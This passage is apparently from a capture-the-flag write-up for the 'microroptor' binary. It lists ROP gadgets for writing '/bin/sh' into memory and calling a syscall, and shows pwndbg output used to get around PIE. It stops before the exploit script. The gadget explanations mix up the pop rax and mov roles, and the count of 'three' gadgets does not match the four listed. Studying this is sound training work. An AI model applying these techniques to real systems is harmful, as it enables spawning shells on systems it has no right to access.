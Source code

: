 ```bash
└─$ ROPgadget --binary microroptor | grep 'syscall'
0x0000000000001173 : syscall
```
Unfortunately, the binary doesn't contain `/bin/sh` directly, but it has several interesting gadgets we can use to place `/bin/sh` in memory and execute it.

Here are three interesting gadgets to load `/bin/sh` into memory:

```bash
- 0x000000000000116f : pop rdi ; ret
- 0x0000000000001169 : mov qword ptr [rdi], rax ; ret
- 0x000000000000116d : pop rax ; ret
```
## Explanation of the gadgets:

  `0x000000000000116f: pop rdi ; ret`: This gadget allows us to control the `rdi` register, often used to point to a memory address where we want to write.

  `0x0000000000001169 : mov qword ptr [rdi], rax ; ret` : This gadget will load a value into the `rax` register, which is often used to hold the data we want to write to `memory`.

  `0x000000000000116d : pop rax ; ret` : This gadget allows us to write the value in `rax` to the address pointed to by `rdi`.

And three other gadgets for executing `/bin/sh`:
```bash
- 0x000000000000116f : pop rdi ; ret
- 0x0000000000001249 : pop rsi ; pop r15 ; ret
- 0x0000000000001171 : pop rdx ; ret
- 0x000000000000116d : pop rax ; ret
```
Before doing anything, we need to bypass `PIE` : 

## Bypass PIE Protection

When we run the script with `gdb-pwndbg`:
```bash
pwndbg> run
Starting program: /home/attacker/microroptor
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x555555558010
```

Thanks to Pwndbg, we can see the leak address, which this time will be fixed. Now, we just need to subtract it from the program's base address:

How do we see the program's base address? With GDB, we can simply use `vmmap` or, more verbosely, `info proc mappings`:

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /home/attacker/microroptor
    0x555555555000     0x555555556000 r-xp     1000   1000 /home/attacker/microroptor
    0x555555556000     0x555555557000 r--p     1000   2000 /home/attacker/microroptor
    0x555555557000     0x555555558000 r--p     1000   2000 /home/attacker/microroptor
    0x555555558000     0x555555559000 rw-p     1000   3000 /home/attacker/microroptor

```
so with python we can do:
